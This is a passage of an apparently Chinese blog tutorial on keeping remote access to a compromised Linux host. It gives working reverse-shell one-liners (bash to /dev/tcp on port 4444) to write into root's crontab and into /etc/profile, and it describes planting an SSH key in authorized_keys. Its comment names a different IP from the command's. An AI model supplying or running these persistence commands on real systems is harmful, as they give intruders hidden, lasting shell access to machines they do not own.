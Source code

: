 


![](https://img-blog.csdnimg.cn/20200503181031496.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/2020050318110512.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 写入命令到定时任务文件



我们可以在远程主机的定时任务文件中写入一个反弹shell的脚本，但是前提是我们必须要知道远程主机当前的用户名是哪个。因为我们的反弹shell命令是要写在 /var/spool/cron/当前用户命令的文件  内的，所以必须要知道远程主机当前的用户名。否则就不能生效。



比如，当前用户名为root，我们就要将下面内容写入到 /var/spool/cron/root 中。(centos系列主机)



比如，当前用户名为root，我们就要将下面内容写入到 /var/spool/cron/crontabs/root 中。(debian系列主机)



```
*/1  *  *  *  *   /bin/bash -i>&/dev/tcp/192.168.10.11/4444 0>&1      
#每隔一分钟，向192.168.10.27的4444号端口发送shell
```




### 写入SSH公钥 



将公钥信息传送到远程主机的 /root/.[ssh](https://so.csdn.net/so/search?q=ssh&spm=1001.2101.3001.7020)/ 目录下，并且重命名为  authorized\_keys 。如果是其他用户，比如test，那就是 /test/.ssh/ 下。



详细：[写入SSH公钥，进行远程登录](https://blog.csdn.net/qq_36119192/article/details/84620648#%C2%A0%E5%86%99%E5%85%A5SSH%E5%85%AC%E9%92%A5%EF%BC%8C%E8%BF%9B%E8%A1%8C%E8%BF%9C%E7%A8%8B%E7%99%BB%E5%BD%95)



### 写入/etc/profile文件



将以下命令写入/etc/profile文件中，/etc/profile中的内容会在用户打开bash窗口时执行。



```
/bin/bash -i>&/dev/tcp/192.168.10.11/4444 0>&1 &
```




![](https://img-blog.csdnimg.cn/20190427185154347.png)



